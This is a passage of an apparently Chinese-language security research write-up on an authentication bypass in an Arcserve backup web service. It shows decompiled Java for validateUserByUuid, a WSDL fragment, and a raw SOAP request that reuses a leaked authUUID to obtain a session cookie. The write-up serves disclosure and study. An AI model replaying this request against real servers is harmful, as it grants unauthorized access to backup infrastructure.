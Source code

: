     
    无需身份验证即可获取大量有趣的信息：操作系统版本+内部版本号、主机名、域和管理员帐户的名称。但还有一些有趣的东西：authUUID。如果我们再次检查validateUser下面的flash-webui.jar ，就会发现另一个有趣的方法：validateUserByUuid：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public Boolean validateUserByUuid(String uuid, String host, int port, String protocol) throws BusinessLogicException, ServiceConnectException, ServiceInternalException {    logger.debug("validateUserByUuid(String, String, int, String) - start");    if (StringUtil.isEmptyOrNull(uuid))      throw generateException(FlashServiceErrorCode.Login_UUIDRequired);    WebServiceClientProxy client = null;    try {      client = (WebServiceClientProxy)ServiceProviders.getLocalFlashServiceProvider().create(protocol, host, port, "IFlashService_R16_5");      setServiceClient(client);      client.getService().validateUserByUUID(uuid);      setLocalWebServiceClient(client);    } catch (WebServiceException exception) {      logger.error("Error occurs during validate user by uuid...");      logger.error(exception.getMessage());      proccessAxisFaultException(exception, false);    }    getThreadLocalRequest().getSession(true).setAttribute(SessionConstants.SRING_DOMAIN, "");    getThreadLocalRequest().getSession(true).setAttribute(SessionConstants.SRING_USERNAME, "");    getThreadLocalRequest().getSession(true).setAttribute(SessionConstants.SRING_UUID, uuid);    getThreadLocalRequest().getSession(true).setAttribute(SessionConstants.SRING_PASSWORD, "");    logger.debug("validateUserByUuid(String, String, int, String) - end");    return Boolean.TRUE;  }

如果我们 grep 查找此方法名称，我们可以发现它可以从VirtualStandbyServiceImpl.wsdl中描述的 WebService 中使用：

  *   *   *   *   * 

    
    
         <xs:complexType name="validateUserByUUID">        <xs:sequence>          <xs:element name="arg0" type="xs:string" minOccurs="0"/>        </xs:sequence>      </xs:complexType>
    
    
    所以它只需要一个参数，即 UUID。当我们将它与之前找到的AuthUUID值一起使用时会发生什么？

  *   *   *   *   *   * 

    
    
    POST /WebServiceImpl/services/VirtualStandbyServiceImpl HTTP/1.1SOAPAction: "<http://webservice.arcflash.ca.com/IEdgeDashboardService/validateUserByUUIDRequest>"Host: 192.168.56.20:8014Content-Length: 964  
    <?xml version='1.0' encoding='UTF-8'?><S:Envelope xmlns:S="<http://schemas.xmlsoap.org/soap/envelope/>"><S:Body><ns2:validateUserByUUID xmlns:ns2="<http://webservice.arcflash.ca.com>" xmlns:ns3="<http://backup.data.webservice.arcflash.ca.com/xsd>" xmlns:ns4="<http://data.webservice.arcflash.ca.com/xsd>" xmlns:ns5="<http://export.data.webservice.arcflash.ca.com/xsd>" xmlns:ns6="<http://vsphere.data.webservice.arcflash.ca.com/xsd>" xmlns:ns7="<http://browse.data.webservice.arcflash.ca.com/xsd>" xmlns:ns8="<http://restore.data.webservice.arcflash.ca.com/xsd>" xmlns:ns9="<http://catalog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns10="<http://activitylog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns11="<http://remotedeploy.data.webservice.arcflash.ca.com/xsd>" xmlns:ns12="<http://history.job.data.webservice.arcflash.ca.com/xsd>" xmlns:ns13="<http://webservice.edge.arcserve.ca.com/>"><arg0>6bf37b8e-ac4f-487d-8d74-d6d0a8d9b8d1</arg0></ns2:validateUserByUUID></S:Body></S:Envelope>
    
    
    它通过会话响应 cookie（代理会话 ID …）

  *   *   *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200Date: Fri, 03 Feb 2023 22:01:07 GMTServer: ApacheContent-Type: text/xml;charset=utf-8Set-Cookie: AGENTJSESSIONID=D16CE41B84744598FD8BBD6D9A568CE1; Path=/WebServiceImpl; Secure; HttpOnlyContent-Length: 324  
    <?xml version='1.0' encoding='UTF-8'?><S:Envelope xmlns:S="<http://schemas.xmlsoap.org/soap/envelope/>"><S:Body><ns2:validateUserByUUIDResponse xmlns:ns2="<http://webservice.arcflash.ca.com>" xmlns:ns3="<http://data.webservice.arcflash.ca.com/xsd>"><ns2:return>0</ns2:return></ns2:validateUserByUUIDResponse></S:Body></S:Envelope>  
    
